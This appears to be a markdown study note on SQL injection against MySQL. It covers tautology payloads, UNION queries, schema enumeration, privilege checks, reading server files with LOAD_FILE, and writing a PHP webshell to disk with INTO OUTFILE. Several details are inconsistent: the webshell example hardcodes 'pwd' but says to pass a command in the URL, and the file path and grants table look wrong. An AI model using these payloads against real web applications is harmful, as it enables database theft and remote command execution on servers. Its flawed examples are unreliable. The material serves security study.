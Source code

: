 # SQL Injection

This is one of the most common types of vulnerabilities that you can find on a web application. You don't need to use any tools for this, only an understanding of whatever type of database is on the backend. Examples here use MySQL, but the same principles apply to any query language.

## Testing For Vulnerabilities

You can check to see if an application is vulnerable to SQL injection using just about anything that takes user input, e.g. a login page or a search bar.

On the backend, an unsanitized query would look something like `SELECT address FROM users WHERE first_name='" + "John" "' AND last_name='" + "Deere" + "';"`.

You can check if queries are sanitized by submitting something like `' OR 1=1; -- -` into the search bar. In this example, you would get `address` from all users because the query would always produce a `true` result, thanks to `1=1`. `; -- -` terminates and comments out the rest of the query (the last `-` at the end is just to show there's a space after the other two).

Alternatively, attempting to tamper with the query could produce a syntax error on the screen, which tells you that you can directly interact with the database.

## UNION Operator

UNION is used to combine two queries, and you can use it to select information from just about any table in the database; you just have to make sure that the results of each query have the same number of columns.

## Information Schema

### General

In MySQL, the database called `INFORMATION_SCHEMA` contains metadata on the rest of the databases on the server.
You can see what other databases there are using `INFORMATION_SCHEMA.SCHEMATA`.

You can find info on a specific table using `INFORMATION_SCHEMA.TABLES`.

There is also info on all columns in the databases stored in `INFORMATION_SCHEMA.COLUMNS`.

### Permissions

In MySQL, you can check if the current user on the database has super admin permissions with `SELECT super_priv FROM mysql.user`.

You can see what other privileges you have using `SELECT sql_grants FROM information_schema.sql_show_grants`.

## Files

Keep in mind that you'll likely have to use the below commands with a UNION operator.

### Reading

If the OS user running the database server has the right permissions, you can read from files on the server's machine using `LOAD_FILE(file_path)`.

### Writing

In order to write, the database server's user needs to have file permissions, `secure_file_priv` must be disabled, and the OS user needs write access to wherever it is you want to write to on the machine.

You can check if `secure_file_priv` is enabled using `SHOW VARIABLES LIKE 'secure_file_priv';`.

You can also output the result of a query into a file using `into outfile`, e.g. `SELECT 1, 2, 3, 4 INTO OUTFILE '/var/etc/';`.

#### Webshells

The following bit of PHP can let you establish a webshell with the server's machine.
`<?php system('<command>'); ?>`

You just have to use `into outfile` to save it into a .php file.

E.g. `SELECT 1, 2, 3, "<?php system('pwd'); ?>" INTO OUTFILE '/var/etc/shell.php';`
You could then browse to /shell.php?0=id to see the output.
